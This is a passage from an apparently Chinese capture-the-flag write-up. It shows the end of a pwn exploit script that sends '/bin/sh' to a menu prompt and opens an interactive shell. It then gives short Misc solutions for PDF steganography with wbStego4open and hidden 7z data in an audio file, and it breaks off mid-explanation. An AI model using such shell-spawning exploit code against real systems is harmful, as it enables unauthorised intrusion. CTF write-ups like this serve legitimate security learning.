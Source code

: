 ```
       sub_quit(io)
       #sub_update(io, 2, system_addr)
       #sub_quit(io)
       t_reload(io, 0)
 
       io.read_until("Choose: ")
       io.writeline("/bin/sh")
 
       io.interact()
 
       return True
 
 
io = get_io(target)
pwn(io)
```



成功截图：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f6227c0b86b9c9b6.png)

 

**Misc**

**10 Welcome**



**100  Speed Data**

PDF隐写  直接二进制查看或者用工具都可以

工具是 wbStego4open  直接decode就可以得到flag

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012e213fb3b317bab8.png)

 

 

### 200  Puzzle

音频中间某处有个字符串：

1L0vey0u*.*me

音频最后有奇怪的数据：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0198471110b56397db.png)

明显的7z，不过每两个字符中间加了00，写个脚本解一下得到一个7z：
